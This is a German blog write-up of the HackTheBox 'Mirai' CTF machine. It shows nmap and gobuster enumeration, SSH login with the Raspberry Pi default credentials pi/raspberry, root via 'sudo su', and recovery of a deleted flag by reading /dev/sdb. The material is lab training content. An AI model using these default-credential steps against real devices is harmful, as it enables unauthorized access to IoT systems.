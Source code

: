 ```yaml
---
title: "HackTheBox - Mirai WriteUp | Tipps + Anleitung"
date: 2018-02-10T19:59:56+01:00
toc: false
images:
tags:
  - hackthebox
  - ctf
  - german
---
```


[Mirai](https://www.hackthebox.eu/home/machines/profile/64) ist eine der vielen Verfügbaren CTF Challenges von [HackTheBox](https://hackthebox.eu/). [Mirai](https://www.hackthebox.eu/home/machines/profile/64) ist eine leichte Maschine von [HackTheBox](https://hackthebox.eu/) und sehr gut für Anfänger geeignet. Aber auch für Erfahrene, die eine Herausforderung für zwischendurch suchen.

[![schwierigkeit](https://imgur.com/pSKDFUC.jpg)](https://imgur.com/pSKDFUC)

## **Tipps**

- Informiere dich darüber, wie das [Mirai](https://de.wikipedia.org/wiki/Mirai_(Malware))-Botnetz sich ausgebreitet hat.
- Welches Betriebssystem hat die Maschine? Auf was für einem Gerät läuft dieses?  
Ein Nmap-Scan und die Website verraten dies.
- Standard Login-Daten sind immer was tolles. :)
- Root zu bekommen könnte nicht einfacher sein.
- Alles ist eine Datei. Wo können die Inhalte des USB-Sticks zu finden sein?

## **Video**

[![Kurzes Video Walkthrough ohne Erklärungen](http://img.youtube.com/vi/RMcGUrRzXVI/0.jpg)](http://www.youtube.com/watch?v=RMcGUrRzXVI)

## **Anleitung**

Als erstes kommt wie immer ein Nmap-Scan. Die Option -A sorgt dafür, dass Nmap das Betriebssystem und die Services herausfindet.

```shell
root@kali:~# nmap -A 10.10.10.48

[...]
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
[...]
53/tcp open  domain  dnsmasq 2.76
[...]
80/tcp open  http    lighttpd 1.4.35
[...]
```

Nmap konnte drei offene Ports finden. SSH, Domain und HTTP. Außerdem scheint, dass Betriebssystem Debian zu sein.

Als nächstes bruteforcen wir die Verzeichnisse der Internetseite. Ich benutze dafür GoBuster, allerdings sind alternativen wie Dirb, Dirbuster, WFuzz, etc. genauso nützlich. Die Option **-t** legt fest wieviele Prozesse GoBuster parallel laufen lassen soll. Der Standard dabei ist 10.

```shell
root@kali:~# gobuster -u 10.10.10.48 -t 25 -w /usr/share/wordlists/dirb/common.txt

Gobuster v1.2 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : http://10.10.10.48/
[+] Threads : 25
[+] Wordlist : /usr/share/wordlists/dirb/common.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/admin (Status: 301)
/swfobject.js (Status: 200)
=====================================================
```

Interessant. Es wurde nur ein Verzeichnis gefunden und zwar **admin**.

Sehen wir uns doch mal **http://www.10.10.10.48/admin/** an.

[![10.10.10.48/admin](https://imgur.com/7MMcehl.jpg)](https://imgur.com/7MMcehl)

Anscheinend haben wir es mit einem [Raspberry Pi](https://de.wikipedia.org/wiki/Raspberry_Pi) zu tun.

Die Standard Zugangsdaten bei einem Raspberry Pi mit Debian sind **Nutzername: pi und Passwort: raspberry**.  
Vielleicht haben wir Glück und diese wurden noch nicht verändert.

```shell
root@kali:~# ssh pi@10.10.10.48
pi@10.10.10.48's password

[...]

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $
```

Es hat tatsächlich funktioniert. Nun können wir uns die User-Flag holen.

```shell
pi@raspberrypi:~ $ ls
Desktop Documents Downloads Music Pictures [...]
pi@raspberrypi:~ $ cat ./Desktop/user.txt
ff8#########zensiert#########38d
```

Root zu werden, wird uns einfach gemacht.

```shell
pi@raspberrypi:~ $ sudo su
root@raspberrypi:/home/pi#
```

Nun weiter zur Root-Flag:

```shell
root@raspberrypi:/home/pi# cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

Den USB-Stick sollten wir unter **/media** finden können, falls dieser noch gemountet ist.

```shell
root@raspberrypi:/home/pi# cd /media
root@raspberrypi:/media# ls
usbstick
root@raspberrypi:/media# ls usbstick/
damnit.txt lost+found
root@raspberrypi:/media# cat usbstick/damnit.txt
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Die Datei die wir brauchen wurde vom USB-Stick gelöscht...

In Linux ist alles eine Datei. Unter **/dev** befinden sich alle Gerätedateien. Unter **/dev/sd*** können wir SATA-Festplatten und Externe Speichermedien wie z.B. USB-Sticks finden.  
Mit **cat** können wir diese ganz einfach anzeigen lassen.

```shell
root@raspberrypi:/media# cd /dev
root@raspberrypi:/dev# ls
[...] sda1 sda2 sdb [...]
root@raspberrypi:/dev# cat sdb
```

5\. letzte Zeile:

```shell
[...]
�|}*,.�����+-���3d3#########zensiert#########20b
[...]
```

Vielen Dank für's durchlesen. :)